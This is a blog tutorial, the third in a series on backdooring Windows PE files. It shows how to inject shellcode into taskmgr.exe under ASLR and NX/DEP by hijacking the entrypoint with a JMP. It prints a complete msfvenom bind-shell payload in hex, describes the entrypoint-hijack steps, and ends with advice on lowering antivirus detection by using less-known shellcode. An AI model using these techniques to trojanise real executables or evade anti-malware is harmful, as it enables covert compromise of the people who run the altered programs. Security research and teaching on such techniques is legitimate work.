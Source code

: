 ```yaml
---
title: Beating ASLR & NX/DEP without PE Headers/Code Caves (VOL:III)
author: fwinsnes
date: 2020-10-22 13:44:00 +0800
categories: [Backdooring]
tags: [assembly, shellcoding]
---
```


### Introduction

You find yourself reading the third volume of the "PE File Backdooring" series. As a result of such, I highly recommend reading the [first](https://whitecr0wz.github.io/posts/Backdooring-PE/) and [second](https://whitecr0wz.github.io/posts/Backdooring-PE-II/) blog post of the series, as it may help understanding 
the shown material on this post.

Today, I will be explaining how to backdoor PE Files when heavy protections such as ASLR and NX/DEP are present without altering the binary at all.
Furthermore, in order to replay the concept, the well-known [task manager](https://en.wikipedia.org/wiki/Task_Manager_(Windows)) will be employed, due to the reason that it has 
all protections enabled and as it is a common executable.

Let's check for available Code Caves just by curiosity.

```term
C:\Users\IEUser\AppData\Local\Programs\Python\Python38-32>python.exe pycave.py -
f C:\Windows\system32\taskmgr.exe
[+] Minimum code cave size: 300
[+] Image Base:  0x00400000
[+] Loading "C:\Windows\system32\taskmgr.exe"...

[!] ASLR is enabled. Virtual Address (VA) could be different once loaded in memo
ry.

[+] Looking for code caves...
[+] Code cave found in .data            Size: 4796 bytes        RA: 0x0001D694
VA: 0x0041E094
[+] Code cave found in .data            Size: 779 bytes         RA: 0x0001E9B1
VA: 0x0041F3B1
[+] Code cave found in .data            Size: 379 bytes         RA: 0x0001EF9D
VA: 0x0041F99D
[+] Code cave found in .rsrc            Size: 725 bytes         RA: 0x00024EAF
VA: 0x00426AAF
[+] Code cave found in .rsrc            Size: 682 bytes         RA: 0x000252DE
VA: 0x00426EDE
[+] Code cave found in .rsrc            Size: 700 bytes         RA: 0x00027434
VA: 0x00429034
[+] Code cave found in .rsrc            Size: 334 bytes         RA: 0x00027886
VA: 0x00429486
[+] Code cave found in .rsrc            Size: 312 bytes         RA: 0x00028760
VA: 0x0042A360
[+] Code cave found in .rsrc            Size: 308 bytes         RA: 0x0002910C
VA: 0x0042AD0C
[+] Code cave found in .rsrc            Size: 585 bytes         RA: 0x0002C233
VA: 0x0042DE33
[+] Code cave found in .rsrc            Size: 369 bytes         RA: 0x0002FCFB
VA: 0x004318FB
[+] Code cave found in .rsrc            Size: 585 bytes         RA: 0x00033613
VA: 0x00435213

C:\Users\IEUser\AppData\Local\Programs\Python\Python38-32>
```

Interesting, we see several places in which we could inject our payload. However, this is actually not possible, as NX/DEP would prevent our instructions from being executed. Of 
course, we could just change the properties of certain sections such as .data or .rsrc, but this is actually found off the bounds of this post, isn't it? We need to circumvent 
such environment without changing the binary too much.

Let's check the enabled protections.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/1.png)

As aforementioned, everything seems enabled.

As we are unable to use a the addition of a PE Header and a Code Cave, we are left with pretty scarce options. Nevertheless, if checked on most binaries, at the bottom of the 
stack, we may find unused data that is partially executable.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/2.png)

It isn't quite much, perhaps among 500 bytes, but it sure is enough to fit our payload and execute it. Sadly, encoding is not available in such scenarios, as the section is too 
privileged for certain encoding characters which are obligatory.

Let's check the entrypoint, as such addresses will be later on restored as explained on the previous posts.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/3.png)

We see a CALL towards 00D68396. As we need to restore this function later on, if we simply replace it with a JMP, we may not have the address to restore due to ASLR. 
#### For such reasons, I will perform this step at the ending, placing the PUSHAD/PUSHFD + shellcode + alignment + POPFD/POPAD + restore first and then replace the entrypoint at 
last.

For this scenario, I will use address 00D7DE67.

Placing PUSHAD/PUSHFD.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/4.png)

Generating shellcode.

```term
root@whitecr0wz:~# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f hex 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 328 bytes
Final size of hex file: 656 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f
6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd56a085950e2fd
4050405068ea0fdfe0ffd597680200232889e66a10565768c2db3767ffd55768b7e938ffffd5576874ec3be1ffd5579768756e4d61ffd568636d640089e357575731f66a125956e2fd66c744243c01018d442410c60044545
056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd5
root@whitecr0wz:~# 
```

Pasting the shellcode.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/5.png)

Performing additional modifications to the shellcode.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/6.png)

Placing the alignment.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/7.png)

Inserting the POPFD/POPAD instructions.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/8.png)

Restoring the CALL instruction.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/9.png)

Now, we could simply replace the CALL instruction without any issue.

Assembling the JMP towards the following address of the entrypoint.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/10.png)

This is then saved.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/11.png)

Replacing the entrypoint for a JMP instruction towards our unused bytes. Even though ASLR is enabled, it should be clarified that JMP instructions do not hardcode their address, 
as if we remember in the last post, the address the instruction was pointing to changed whenever the location of the JMP was modified, meaning that all JMP opcodes are relative 
to their location and do not hardcode addresses. In fact, you could even calculate the distance between the unused bytes and the Entry Point and the result would be the same.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/12.png)

This is then saved.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/13.png)

If this is run, we may see how the shellcode is executed as intended without any complication!

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/14.gif)

Results of VirusTotal:

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/15.png)

Even though the results are very weak, this could be  improved by changing this shellcode for one that is not as known, as the one used for these posts is pretty noisy against 
Anti-Malware software. Furthermore, the techniques discussed on the [previous](https://whitecr0wz.github.io/posts/Backdooring-PE-II/) post could be from great help in order to 
lower the detection.

Thank you for reading! 

#### References
Capt. Meelo’s post: [https://captmeelo.com/exploitdev/osceprep/2018/07/21/backdoor101-part2.html](https://captmeelo.com/exploitdev/osceprep/2018/07/21/backdoor101-part2.html).

Online x86/x64 Assembler/Disassembler: [https://defuse.ca/online-x86-assembler.htm#disassembly2](https://defuse.ca/online-x86-assembler.htm#disassembly2).
